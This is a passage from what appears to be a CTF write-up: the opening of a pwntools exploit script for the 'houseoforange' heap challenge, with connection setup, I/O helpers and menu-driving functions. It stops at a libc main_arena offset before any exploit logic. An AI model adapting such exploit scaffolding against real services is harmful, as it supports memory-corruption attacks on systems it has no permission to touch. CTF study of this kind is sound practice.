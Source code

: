 


## exp

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile = 'houseoforange'
libFile = '/lib/x86_64-linux-gnu/libc.so.6'
#libFile = './libc64-2.19.so'

remoteIp = "0.0.0.0"
remotePort = 0

LOCAL = 1
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
s   =  lambda x : io.send(x)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
li    = lambda x : log.info('\x1b[01;38;5;214m' + x + '\x1b[0m')
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, data):
	sla('Your choice : ', str(1))
	sla('name :', str(size))
	sa('Name :', data)
	sla('Price of Orange:', str(16))
	sla('Orange:', '1');


def md(size, data):
	sla('Your choice : ', str(3))
	sla('name :', str(size))
	sa('Name:', data)
	sla('Price of Orange:', str(16))
	sla('Orange:', '1');

def dp():
	sla('Your choice : ', str(2))

def q():
	sla(':', str(5))	

#--------------------------Exploit--------------------------
def exploit():
	main_arena = 0x3c4b20
```